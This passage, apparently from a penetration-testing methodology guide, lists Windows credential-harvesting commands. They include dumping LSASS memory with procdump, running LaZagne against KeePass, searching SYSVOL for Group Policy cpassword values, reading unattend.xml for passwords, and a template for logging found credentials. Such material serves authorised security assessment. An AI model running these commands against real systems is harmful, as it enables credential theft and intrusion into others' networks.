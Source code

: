 ### Advanced Discovery Techniques

#### Memory-Based Credential Extraction
```cmd
# Process memory dumps (requires elevated privileges)
procdump -ma lsass.exe lsass.dmp

# KeePass memory extraction
LaZagne.exe memory -v

# Application process dumps
tasklist | findstr -i "keepass\|password\|vault"
```

#### Network Share Enumeration
```cmd
# Local shares
net share

# Domain shares (if domain-joined)
net view \\domain-controller
net view /domain

# SYSVOL search for Group Policy passwords
findstr /S /I cpassword \\domain.local\sysvol\domain.local\*.xml
```

#### Alternative Data Streams and Hidden Files
```cmd
# Check for alternate data streams
dir /R C:\Users\%USERNAME%\Documents\

# Hidden files search
dir /AH /S C:\Users\%USERNAME%\

# System files containing credentials
type C:\Windows\Panther\unattend.xml | findstr /i password
type C:\Windows\System32\sysprep\unattend.xml | findstr /i password
```

### Documentation and Validation

#### Credential Organization
```
# Create structured credential inventory
Date: [timestamp]
Target: [hostname/IP]
User Context: [username/privileges]

Found Credentials:
[Service/Application] | [Username] | [Password/Hash] | [Location] | [Validated]
SSH Switches         | netadmin   | P@ssw0rd123    | config.txt | YES
GitLab              | developer  | token123       | browser    | NO
WinSCP              | admin      | secret456      | registry   | YES
```
